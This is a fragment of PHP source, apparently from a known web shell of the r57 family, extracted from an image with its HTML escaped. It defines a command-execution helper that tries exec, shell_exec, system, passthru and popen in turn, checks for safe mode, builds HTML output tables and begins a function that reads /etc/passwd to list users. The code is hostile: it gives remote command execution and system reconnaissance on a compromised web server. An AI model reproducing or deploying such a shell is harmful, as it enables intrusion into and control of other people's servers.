           $r .= "&lt;TD&gt;&lt;font face=Verdana size=-2&gt;".ws(2).$b."&lt;/font&gt;&lt;/TD&gt;";
          $r .= "&lt;/TR&gt;\n";
        }
      }
      $r .= "&lt;/TABLE&gt;";
    echo $r;
    }
    else
    {
      echo "&lt;P align=center&gt;&lt;B&gt;&lt;font face=Verdana size=-2&gt;".$lang[$language.'_text56']."&lt;/B&gt;&lt;/font&gt;&lt;/P&gt;";
    }
  echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
  die();
  }
if(strpos(ex("echo abctryag"),"tryag")!=3) { $safe_mode = 1; }
$SERVER_SOFTWARE = getenv('SERVER_SOFTWARE');
if(empty($SERVER_SOFTWARE)){ $SERVER_SOFTWARE = "-"; }
function ws($i)
{
return @str_repeat("&nbsp;",$i);
}
function ex($cfe)
{
 $res = '';
 if (!empty($cfe))
 {
  if(function_exists('exec'))
   {
    @exec($cfe,$res);
    $res = join("\n",$res);
   }
  elseif(function_exists('shell_exec'))
   {
    $res = @shell_exec($cfe);
   }
  elseif(function_exists('system'))
   {
    @ob_start();
    @system($cfe);
    $res = @ob_get_contents();
    @ob_end_clean();
   }
  elseif(function_exists('passthru'))
   {
    @ob_start();
    @passthru($cfe);
    $res = @ob_get_contents();
    @ob_end_clean();
   }
  elseif(@is_resource($f = @popen($cfe,"r")))
  {
   $res = "";
   while(!@feof($f)) { $res .= @fread($f,1024); }
   @pclose($f);
  }
 }
 return $res;
}
function get_users()
{
  $users = array();
  $rows=file('/etc/passwd');